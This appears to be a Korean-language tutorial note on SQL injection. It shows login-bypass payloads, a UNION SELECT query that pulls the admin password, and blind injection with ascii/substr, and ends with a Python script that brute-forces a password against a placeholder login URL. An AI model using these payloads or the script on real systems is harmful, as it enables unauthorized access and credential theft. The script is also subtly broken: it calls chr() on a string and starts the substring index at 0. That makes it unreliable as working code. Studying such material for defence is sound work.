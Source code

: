 # **SQL Injection**

<br>

* ### SQL Injection은 클라이언트의 입력값을 조작하여 서버의 데이터베이스를 공격할 수 있는 공격방식이다.
* ### 공격자는 입력값을 조작하여 임의의 SQL문을 주입하여, 원하는 기밀정보를 탈취하거나, DB내용 변경, 데이터 삭제 등 치명적인 행동을 할 수 있다.

- - -

<br>

* ## **공격 기법**

<br>

* ### 아래는 애플리케이션이 DBMS에 보내는 query다.

<br>

```sql
SELECT * FROM accounts
WHERE user_id = 'user_id' and
user_pw = 'password'
```
<br>

* ### user_id에 사용자가 입력한 id, pasword에 사용자가 입력한 pw가 들어가는데, query를 조작 시 아래와 같이 만들 수 있다.

<br>

```sql
SELECT * FROM accounts WHERE
user_id = 'admin'
```

* ### 이렇게 될 시, password는 비교하지 않고, 값이 반환되기 때문에 admin 계정으로 로그인할 수 있다.

<br>

* ### uid에 guest, admin이 있고 upw에는 guest의 password guest와 admin의 password가 있다있다고 할 때 admin으로 로그인하려면, 아래와 같이 하면 된다.

<br>

```sql
SELECT * FROM user_table
WHERE uid='admin' or 1 = 1 --and upw = '';
```

* ### uid값을 admin' or 1 = 1 #을 입력할 시 id의 범위인 ''를 끝내고, or 1 = 1을 함으로써 결과가 무조건 True가 된다.
* ### 그리고, 주석으로 뒷 query를 무시할 시, 조건문을 무시하고 모든 결과가 출력된다.
<br>

* ### admin의 upw를 알아내려면, 아래와 같이 입력하면 된다.

<br>

```sql
SELECT * FROM user_table
WHERE uid= 'admin' union select upw from user_table where uid = "admin" -- and upw = '';
```

* ### 아래와 같이 입력 시, 검색 후 union select로 또 다른 조회를 하는데, 여기서 user_table의 admin의 password를 검색한다.

- - -

<br>

## **Blind SQL Injection**

<br>

* ### Blind SQL Injection은  스무고개 게임과 유사한 방식으로 데이터를 알아낼 수 있다.
* ### 아래는 계정 정보를 탈취한다고 가정했을 때의 예시이다.

<br>

### 1. dreamhack 계정의 비밀번호 첫 글자는 'x'인가요?
+ 아닙니다.
  <br>
### 2. dreamhack 계정의 비밀번호 첫 번째 글자는 'p' 인가요?
+ 맞습니다.

<br>

* ### 이런 식으로, 답변이 True 혹은 False로 이루어져 있을 때, 참/거짓 결과로 데이터를 획득하는 공격 기법을 Blinde SQL Injection이라고 한다.

<br>

* ### blind sql injection 공격을 할 때엔 ascii 함수와 substr함수를 자주 사용한다.
<br>

```sql
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False
```

* ### 이런 쿼리는, 답이 0이나 1로 나올 경우 False이므로 첫 글자는 r이 아니란 게 된다. 만약 True일 경우, 첫 글자가 r인 것이다.

<br><br>

### Blind sql Injection 공격 스크립트

<br>

```py
#!/usr/bin/python3
import requests
import string
url = 'http://example.com/login' # example URL
params = {
    'uid': '',
    'upw': ''
}
tc = string.ascii_letters + string.digits + string.punctuation # abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
for idx in range(0, 20):
    for ch in tc:
        params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break
print(f"Password is {password}")
```

<br>

* ### 해당 코드는 비밀번호에 들어갈 수 있는 값인 숫자,문자,특수문자를 각 자릿수에 한 번씩 보내서 결괏값이 True인 경우(Login success) 최종 비밀번호에 해당 값을 추가한다.